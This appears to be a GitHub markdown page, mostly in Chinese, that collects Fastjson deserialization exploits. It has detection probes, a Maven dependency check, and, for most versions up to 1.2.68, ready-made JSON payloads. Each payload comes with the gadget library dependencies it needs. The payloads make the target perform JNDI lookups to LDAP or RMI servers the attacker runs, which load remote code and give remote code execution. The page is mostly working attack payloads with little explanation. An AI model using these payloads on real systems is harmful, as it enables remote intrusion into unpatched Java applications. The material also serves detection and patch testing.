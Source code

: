 ## Ref
- http://dream0x01.com/spear-framework/#/fastjson/fastjson
- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce




## fastjson黑盒检测
```json
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## fastjson白盒检测
```
mvn dependency:tree -Dincludes=com.alibaba:fastjson -Dverbose
```
只有直接依赖，没有间接以来的结果示例：
```
[INFO] sec:java-sec-code:jar:1.0.0
[INFO] \- com.alibaba:fastjson:jar:1.2.60:compile
```
有间接依赖的示例：
```
[INFO] +- com.alibaba:fastjson:jar:1.2.24:compile
[INFO] +- com.aliyun.openservices:aliyun-log-producer:jar:0.3.3:compile
[INFO] |  \- com.aliyun.openservices:aliyun-log:jar:0.6.33:compile
[INFO] |     \- (com.alibaba:fastjson:jar:1.2.48:compile - version managed from 1.2.38; omitted for conflict with 1.2.24)
```
虽然这个例子由于pom中直接依赖了fastjson 1.2.24，导致`aliyun-log-producer`依赖的1.2.38版本失效。

参考：https://mvnrepository.com/artifact/com.aliyun.openservices/aliyun-log/0.6.63


## poc for all versions

### <= 1.2.68 org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig
pom.xml:
```xml
        <dependency>
            <groupId>org.apache.hadoop</groupId>
            <artifactId>hadoop-client-minicluster</artifactId>
            <version>3.2.1</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:43658/Calc"}
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:43658/Calc"}
```

### <= 1.2.66 org.apache.shiro.realm.jndi.JndiRealmFactory
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/org.apache.shiro/shiro-core -->
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>1.2.4</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://shiro.5a8a62c8cc78196e6377.d.zhack.ca:43658/Calc"], "Realms":[""]}
```


### <= 1.2.62 org.apache.xbean.propertyeditor.JndiConverter
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/org.apache.xbean/xbean-reflect -->
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>4.16</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://localhost:1389/Calc"}
```


### <= 1.2.62 com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig
pom.xml:
```xml
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>
```

poc:
```json
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.85.1:1389/calc"}}
```

### <= 1.2.62 org.apache.cocoon.components.slide.impl.JMSContentInterceptor
pom.xml:
```xml
        <dependency>
            <groupId>slide</groupId>
            <artifactId>slide-kernel</artifactId>
            <version>2.1</version>
        </dependency>
        <dependency>
            <groupId>cocoon</groupId>
            <artifactId>cocoon-slide</artifactId>
            <version>2.1.11</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://192.168.85.1:1389/calc"}, "namespace":""}
```
in which `"java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory",` is essential.


### <=1.2.62 br.com.anteros.dbcp.AnterosDBCPConfig
pom.xml
```
        <dependency>
            <groupId>com.codahale.metrics</groupId>
            <artifactId>metrics-healthchecks</artifactId>
            <version>3.0.2</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-Core</artifactId>
            <version>1.2.1</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-DBCP</artifactId>
            <version>1.0.1</version>
        </dependency>
```

poc:
```json
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://192.168.85.1:1389/Calc"}
```


### <=1.2.59 org.apache.commons.proxy.provider.remoting.SessionBeanProvider
pom.xml:
```xml
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-proxy</artifactId>
            <version>1.0</version>
        </dependency>
```
poc:
```json
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://192.168.85.1:1389/Calc","Object":"a"}
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://192.168.85.1:1389/Calc"}
```

### <=1.2.59 com.zaxxer.hikari.HikariConfig
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/hikari-cp/hikari-cp -->
        <dependency>
          <groupId>com.zaxxer</groupId>
          <artifactId>HikariCP</artifactId>
          <version>3.4.1</version>
        </dependency>
```

poc:
```json
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://192.168.85.1:1389/Calc"}
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://192.168.85.1:1389/Calc"}
```



### MISC(to be checked)
#### 1.2.24
```json
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}
```

#### 未知版本(1.2.24-41之间)
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

#### 1.2.41
```json
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

#### 1.2.42
```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};
```

#### 1.2.43
```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}
```

#### 1.2.45
```json
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}
```

#### 1.2.47
```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```
